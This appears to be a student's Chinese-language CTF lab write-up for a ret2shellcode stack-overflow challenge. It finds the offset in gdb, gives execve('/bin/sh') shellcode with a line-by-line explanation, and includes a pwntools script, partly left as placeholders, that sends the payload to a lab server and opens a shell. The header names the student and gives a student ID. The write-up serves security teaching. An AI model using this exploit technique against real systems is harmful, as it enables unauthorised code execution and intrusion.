 解雲暄	3190105871

### 01 ret2ShellcodeAgain
通过 gdb 研究栈结构：
![image.png](./assets/1649222382621-dbfae51a-b767-48ba-a273-df8662571282.png)
![image.png](./assets/1649223599955-6bf5e918-e8fc-4135-978b-307d1f9b0e53.png)
可以分析出偏移量是 48。

同时可以注意到，每次运行中栈的位置是不同的，因此 ret addr 的值不能简单地写成字面量。但是程序会给出 name 保存的地址信息，因此我们可以根据偏移量计算注入的地址。
![image.png](./assets/1649222422668-5e2d3e69-24bc-4eec-b3a0-e0eb5f41e87e.png)

下面构造 shellcode。我们在 [http://shell-storm.org/shellcode/](http://shell-storm.org/shellcode/) 找一个能用的 shellcode。可以用的 shellcode 例如：
```
xor rsi, rsi
push rsi
mov rsi, 0x68732f2f6e69622f
push rsi
mov rdi, rsp
xor rsi, rsi
xor rdx, rdx
push 59
pop rax
syscall
```
分析：

- `syscall` 通过 `rdi`, `rsi`, `rdx` 三个寄存器传递参数，调用号存在 `rax` 中
- 第 4 行将 `rsi` 设为了 `/bin/sh` 这个字符串
- 第 7 ~ 8 行将 `rsi` `rdi` 清空
- 第 10 行设置调用号为 59，即 execve。

尝试编写代码并运行，发现一些问题；例如这样栈的增长会覆盖我们的 shellcode 本身。因此我们给 shellcode 最前面增加 `sub rsp, 0x30` 从而避开我们的 shellcode。
![image.png](./assets/1649231989628-a60ef3af-770a-4137-9e08-08295be012fe.png)

最终我们编写脚本得到 flag：
![image.png](./assets/1649234456203-1554066d-2a92-4c59-bf21-dff762e98de1.png)

脚本：
```python
from pwn import *
context(arch = 'x86_64', os = 'linux')
context.log_level = 'DEBUG'
conn = remote("116.62.228.23", 10300)

conn.recvuntil("StudentID:\n")
conn.sendline("3190105871")
conn.recvuntil("name:\n")
conn.sendline("xyx")

shellcode = """
        【搞一个 shellcode】
"""

conn.recvline()
shellcode = asm(shellcode) + b'A' * (40 -【asm(shellcode) 的字节数】)
shellcode += p64(int(str(conn.recvline(), 'UTF-8')[-13:-1], 16))

conn.recvuntil("me!\n")
conn.sendline(shellcode)

conn.interactive()
```
